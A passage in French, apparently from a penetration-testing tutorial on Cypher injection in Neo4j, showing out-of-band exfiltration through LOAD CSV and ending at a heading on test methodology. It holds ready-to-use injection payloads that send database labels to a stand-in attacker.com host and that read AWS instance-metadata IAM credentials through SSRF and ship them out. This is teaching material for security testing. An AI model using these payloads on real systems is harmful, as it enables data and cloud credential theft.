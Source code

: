 Exfiltration des données vers un serveur contrôlé par l'attaquant.

**🌐 Exfiltration LOAD CSV**

```cypher
// 🎯 Exfiltrer les labels
' CALL db.labels() YIELD label LOAD CSV FROM 'https://attacker.com/collect?data=' + label AS dummy RETURN dummy//

// Requêtes reçues sur attacker.com :
GET /collect?data=Utilisateur
GET /collect?data=Produit  
GET /collect?data=Commande
```

**📡 Exfiltration SSRF**

```cypher
// 🔓 Récupérer métadonnées AWS et les exfiltrer
' LOAD CSV FROM 'http://169.254.169.254/latest/meta-data/iam/security-credentials/' AS creds LOAD CSV FROM 'https://attacker.com/aws?role=' + creds[0] AS dummy RETURN dummy//
```

**📊 Schéma Out-of-Band**

```
                   [App Vulnérable]
                        │
                   (1) Injection  
                        │
                        ▼
   [Serveur Attaquant] ←─── [Base Neo4j] 
         │                    │
      (3) Logs             (2) Requêtes d'exfiltration
      avec données          (LOAD CSV vers serveur externe)
         │
         ▼
    [Attaquant]
   (Analyse des données)
```

#### 5.4 Comparaison des Types

| Type              | Visibilité    | Complexité   | Détection    | Cas d'usage               |
| ----------------- | ------------- | ------------ | ------------ | ------------------------- |
| **In-Band**       | 👁️ Directe   | ⭐ Simple     | 🚨 Facile    | Tests initiaux            |
| **Boolean-Blind** | 🕵️ Inférence | ⭐⭐ Moyenne   | 🔍 Modérée   | Extraction précise        |
| **Time-Blind**    | ⏰ Temporelle  | ⭐⭐⭐ Complexe | 🔎 Difficile | Environnements restreints |
| **Out-of-Band**   | 📡 Externe    | ⭐⭐ Moyenne   | 🚨 Variable  | Exfiltration massive      |

***

### 6. Méthodologie de Test
